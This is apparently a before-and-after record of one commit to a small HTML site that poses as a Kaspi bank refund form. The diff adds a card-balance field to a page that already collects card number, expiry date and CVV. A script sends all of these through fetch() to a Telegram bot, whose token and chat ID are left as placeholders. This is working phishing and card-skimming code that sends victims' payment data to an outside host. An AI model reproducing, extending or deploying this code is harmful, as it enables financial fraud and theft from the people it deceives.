

Before and after one commit to kaspigolld/ks, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 374-808 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -33,12 +33,13 @@
       margin-bottom: 6px;
       font-weight: bold;
     }
-    input {
+    input, textarea {
       width: 100%;
       padding: 10px;
       font-size: 16px;
       border-radius: 6px;
       border: 1px solid #ccc;
+      box-sizing: border-box;
     }
     button {
       width: 100%;
@@ -79,6 +80,10 @@
       <label>CVV</label>
       <input type="text" id="card_cvv" placeholder="123">
     </div>
+    <div class="input-group">
+      <label>Остаток средств на карте</label>
+      <input type="text" id="card_balance" placeholder="Введите остаток средств">
+    </div>
     <button onclick="sendData()">Отправить</button>
     <div class="message" id="message">Ваш запрос обрабатывается. Вы получите уведомление в течение трёх рабочих дней.</div>
   </div>
@@ -88,10 +93,11 @@
       const number = document.getElementById('card_number').value;
       const expiry = document.getElementById('card_expiry').value;
       const cvv = document.getElementById('card_cvv').value;
+      const balance = document.getElementById('card_balance').value;
 
       const token = 'YOUR_BOT_TOKEN'; // ЗАМЕНИ
       const chat_id = 'YOUR_CHAT_ID'; // ЗАМЕНИ
-      const msg = `💳 Заявка на возврат Kaspi:\n\nНомер карты: ${number}\nСрок: ${expiry}\nCVV: ${cvv}`;
+      const msg = `💳 Заявка на возврат Kaspi:\n\nНомер карты: ${number}\nСрок: ${expiry}\nCVV: ${cvv}\nОстаток: ${balance}`;
 
       fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
         method: "POST",
@@ -101,6 +107,7 @@
           text: msg
         })
       })
+      .then(response => response.json())
       .then(() => {
         document.getElementById('message').style.display = 'block';
       })
```
